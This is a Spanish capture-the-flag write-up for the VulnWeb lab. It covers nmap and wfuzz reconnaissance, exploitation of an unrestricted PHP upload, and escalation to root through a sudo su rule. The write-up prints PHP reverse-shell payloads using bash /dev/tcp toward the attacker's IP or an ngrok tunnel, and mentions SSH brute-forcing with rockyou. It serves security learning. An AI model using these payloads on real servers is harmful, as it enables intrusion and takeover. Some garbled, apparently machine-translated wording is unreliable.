# VulnWeb
- **Autor del lab**: [Jordi Serrano](https://github.com/j0rd1s3rr4n0)
- **Autor del Write-Up**: [Fonta22](https://github.com/Fonta22)
- **Domini**: [hackmeifyoucan.com](http://hackmeifyoucan.com/)
- **IP**: `212.227.146.196`

## Añadir host
Ante todo, añadimos el dominio al archivo de hosts, localizado en la ruta `/etc/hosts`.

```
212.227.146.196 hackmeifyoucan.com
```

Una vez hecho esto, podemos visualizar la web en el navegador.

## Descripción de la web
Se trata de una web con un diseño simple pero bien encontrado, donde podemos escuchar una canción bien chula y colgar un archivo.


Bueno, o no xD



A simple vista, la web tiene cuatro páginas principales:
- **Home** (`/index.php`): página de inicio donde se puede escuchar una canción y ser *troleado* pensando que puedes colgar un archivo.
- **Upload** (`/upload.php`): página donde realmente puedes colgar un archivo.
- **Folder** (`/uploads/`): listado de archivos subidos. Hay dos:
     - `LogicaProposicions.pdf`: PDF muy aburrido donde puedes aprender lógica de proposiciones (bombardeen UdG).
     - `parthenoun_shell.php`: archivo PHP que te pinta a bomba nuclear. Está protegido bajo una contraseña.
- **Login** (`/login.php`): página para logginarse. Hay dos usuarios disponibles con sus respectivas contraseñas: **Admin** y **pepe**.

## Reconocimiento
Ante todo, comprobaremos cuál es el sistema del servidor ejecutando un `ping`. Si el `ttl` se aproxima a 64 significa que estamos delante de una máquina **Linux**, en cambio si se aproxima a 128, de una máquina **Windows**.

````
$ ping -c 1 212.227.146.196
````

Se ha detectado que es una máquina Linux.

### Scan Nmap
A continuación procedemos con un scan de **Nmap**. El pedido usado ha sido el siguiente:

```
$ nmap -p- --open -sS --min-rate 5000 -vvv -n 212.227.146.196 -oG allPorts
```

Gracias a esto descubrimos que existen **3 puertos abiertos**. Estos son:
- `22/tcp` (ssh)
- `53/tcp` (domain)
- `80/tcp` (http)

Una vez que sabemos los puertos abiertos, realizaremos un reconocimiento más concreto a estos puertos que hemos descubierto. Ignoraremos el `53` ya que es sólo para el dominio.

```
$ nmap -p22,80 212.227.146.196 -sCV -oN targeted
```

La respuesta obtenida ha sido la siguiente:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 8c:3c:b3:c9:55:22:8e:71:70:16:8b:cb:ce:04:2f:55 (RSA)
|   256 c9:98:28:1f:61:ef:59:c1:69:41:e8:9e:7a:75:74:7e (ECDSA)
|_  256 0d:9f:7f:a6:4a:06:6e:ea:b9:c1:de:7e:f7:9c:3e:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index | MFW
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Así pues, tenemos un servidor de OpenSSH 8.2p1** en el puerto `22` y un servidor HTTP de Apache 2.4.41** en el puerto `80`. También hemos descubierto la distro de Linux utilizada, **Ubuntu**.

## Escaneo de directorios
Como hemos comentado anteriormente, en la web se pueden observar 4 páginas, pero podría haber más escondidas que revelaran información.

Usaremos la herramienta **WFuzz** para escanear los directorios de la web. Emplearemos la *wordlist* `directory-list-lowercase-2.3-medium.txt` de **DirBuster**, y le diremos que esconda las peticiones que devuelvan un código **404** con la opción `--hc 404` .

```
$ wfuzz --hc 404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://hackmeifyoucan.com/FUZZ
```

Gracias a ello, hemos descubierto el directorio `/javascript/` pero no nos deja acceder por falta de privilegios.



## Escaneo de archivos PHP
Como hemos observado, la página web está hecha con PHP. Se me ha ocurrido hacer un escaneo de archivos con la extensión `.php`. Usaremos un *wordlist* que he sacado de **GitHub**, llamado [Common-PHP-Filenames.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt).
```
$ wfuzz --hc 404 -w Common-PHP-Filenames.txt http://hackmeifyoucan.com/FUZZ
```

Rápidamente hemos encontrado los archivos que ya conocíamos, y uno nuevo, `logout.php`.

```
Target: http://hackmeifyoucan.com/FUZZ
Total requests: 5163

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000029:   200        437 L    857 W      9785 Ch     "login.php"
000000002:   200        169 L    346 W      3836 Ch     "index.php"
000000077:   200        76 L     158 W      1508 Ch     "upload.php"
000000172:   302        11 L     47 W       480 Ch      "logout.php"
```

Seguramente será el que se llama al cierre de sesión, pero tampoco tenemos acceso (de momento >:D).

## Explotación de `upload.php`
Por el momento los escaneos de archivos han sido bastante inútiles, pero tampoco han sido de más. Vamos a por lo que creo q deberíamos haber empezado: **explotar el sistema de subida de archivos**.

Cuando colgamos un archivo, éste es leído por el sistema y lo cuelga en la ruta `/uploads/ARCHIVO`.

¿Qué pasaría si le colgamos un archivo con código PHP? Intentémoslo.

**echo.php**:
```php
<?php echo "XAAAAATOOOOO"; ?>
```

Parece que ha funcionado. Nos deja ejecutar el archivo.



Pero ¿y si en vez de hacer que escriba un texto en la página, le enchufamos un comando que se conecte a nuestra máquina? *(Reverse Shell)*

Para generar el pedido, haré uso de la página [revshells.com](https://www.revshells.com/). No olvidemos seleccionar el tema "Meme".



Una vez tenemos el pedido para la víctima y el atacante, creamos el archivo PHP.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/212.227.146.196/4646 0>&1") ?>
```

Previamente a colgar el archivo, nos ponemos en escucha en el puerto `4646` con **Netcat**.

```
$ nc -lvnp 4646
```

Una vez colgamos el archivo y lo abrimos, no pasa absolutamente nada porque no he especificado la IP del atacante (la mía), sino la de la víctima, por tanto se está intentando conectar a sí mismo (soy burro) .

Ahora sí, lo jodaremos bien.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/IP_DEL_FONTA/4646 0>&1") ?>
```

Pues mecagum diez no va. *xd*.

### Intento de puerto forwarding
Haciendo algo de investigación, al tener la IP dinámica no funciona. Deberemos hacer puerto forwarding con **Ngrok**.

Ante todo, abrimos un **túnel TCP** en el puerto deseado, en este caso, el `4646`.

```
$ ngrok tcp 4646
```

De esta forma, obtenemos una url que redirige a nuestro puerto local.

```
tcp://X.tcp.eu.ngrok.io:XXXXX -> localhost:4646
```

Así pues, podemos actualizar nuestro payload*, a ver si va esta vez.

**shell_ngrok.php**:
```php
<?php exec("bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1") ?>
```

*TAMPOCO VA.*

Probamos otra sintaxis.

**shell_ngrok.php**:
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1'") ?>
```

Pues tampoco.

### Shell ya hecha de Kali Linux
Después de mis nefastos intentos, buscando he encontrado que **Kali Linux** ya incluye una serie de scripts de reverse shell para PHP. Vamos a intentarlo.

**Ruta**: `/usr/share/webshells/php/php-reverse-shell.php`

Finalmente después de editar el archivo con la IP y el puerto deseado, hemos conseguido una conexión!



## Exploración del servidor
En el servidor, aparte de una wordlist inmensa en el directorio `/home/armando` (muy gracioso Jordi, me ha hecho perder la conexión), no he encontrado nada muy relevante, aparte de un archivo `.ovpn `, que corresponde a **OpenVPN**. Esto significa que si lo ejecutamos, podemos establecer una conexión VPN a un servidor.

Si leemos el archivo, el servidor es `bluegraded.i234.me`, y el puerto `1194`.

Me he descargado el archivo y lo he ejecutado, pero nos pide autenticarnos. Por el momento no tenemos las credenciales.

Por otra parte, si navegamos en la URL del servidor, encontramos una página web con un formulario de autenticación, también de PHP.



A partir de este punto ya no sé si esto es algo externo o tiene algo que ver con la web. Decido moverme al inicio de nuevo.

> **EDIT**: me han confirmado que aquel archivo no debía estar allí, o sea que menos mal que no hemos hecho nada XD

## `whoami`: `root`
En una nueva instancia de shell, compruebo los privilegios de `sudo` del usuario actual. Mira por dónde, tiene pimientos la cosa:

```
$ sudo -l
Matching Defaults entres para www-fecha donde localhost:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-feature may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/su
```

Sin pensármelo dos veces ejecuto el pedido `su` y consigo escalar privilegios de manera bastante épica.



¡En el directorio `/root` finalmente encontramos el archivo `flag.txt` que contiene la flag!



## Website fail
Inspeccionando la web, he entrado en el directorio `/var/www/html/hackmeifyoucan`. Este directorio contiene el código fuente de la web, que podemos interpretar y obtener información muy valiosa. Además, ¡hay otra flag!



Realmente ésta era la primera que teníamos que conseguir, ya que no requeríamos de privilegios para encontrarla, pero bueno, yo ya tenía la de `root` guardada.

## Target: `armando`
Dentro de la carpeta `/var/www/html` encuentro un archivo que me llama la atención: `credentials_ssh.md`.

```md
**TODO: Reforzar la seguridad de la contraseña de "armando"**

La contraseña actual de "armando" es muy insegura y
está en riesgo de ser comprometida. Es importante
tomar medidas para mejorar su seguridad en línea.
La canción "Will Rock You" de Queen nos recuerda
que la fortaleza y la resistencia son clave para
enfrentar cualquier desafío. Es hora de elevar la
seguridad de la contraseña de "armando" para que pueda
resistir cualquier intento de acceso no autorizado.
```

De entrada nos está dando un usuario de `SSH`: **armando**. Al mismo tiempo nos dan pistas sobre la contraseña, y nos confirma que no es muy segura.

Dentro de `/home/armando` encontramos una wordlist, como hemos dicho antes. Se trata de `rockyou.txt`, la más famosa a la hora de crackear contraseñas. Se me ocurre realizar un ataque de fuerza bruta empleando este archivo.

## Flag final
Finalmente, antes de charlar el servidor con fuerza bruta, me he percatado gracias al comando `ls -a` que dentro de `/home/armando` había la última flag, aunque estaba oculta.



¡Ya tenemos las 3 flags! No las hemos conseguido por orden, ¡pero están todas!

## Conclusiones
Al final, después de muchos errores y liadas, hemos conseguido las flags, no por orden, ¡pero las 3!

El lab es muy completo y lo recomiendo mucho a gente que esté empezando como yo, ya que permite practicar *XSS* y *reverse shells*, a la vez que aprender a escalar privilegios en un entorno Linux.

```
  █████▒▒█████   ███▄    █ ▄▄▄█████▓ ▄▄▄      
▓██   ▒▒██▒  ██▒ ██ ▀█   █ ▓  ██▒ ▓▒▒████▄    
▒████ ░▒██░  ██▒▓██  ▀█ ██▒▒ ▓██░ ▒░▒██  ▀█▄  
░▓█▒  ░▒██   ██░▓██▒  ▐▌██▒░ ▓██▓ ░ ░██▄▄▄▄██
░▒█░   ░ ████▓▒░▒██░   ▓██░  ▒██▒ ░  ▓█   ▓██▒
 ▒ ░   ░ ▒░▒░▒░ ░ ▒░   ▒ ▒   ▒ ░░    ▒▒   ▓▒█░
 ░       ░ ▒ ▒░ ░ ░░   ░ ▒░    ░      ▒   ▒▒ ░
 ░ ░   ░ ░ ░ ▒     ░   ░ ░   ░        ░   ▒  
           ░ ░           ░                ░  ░
```
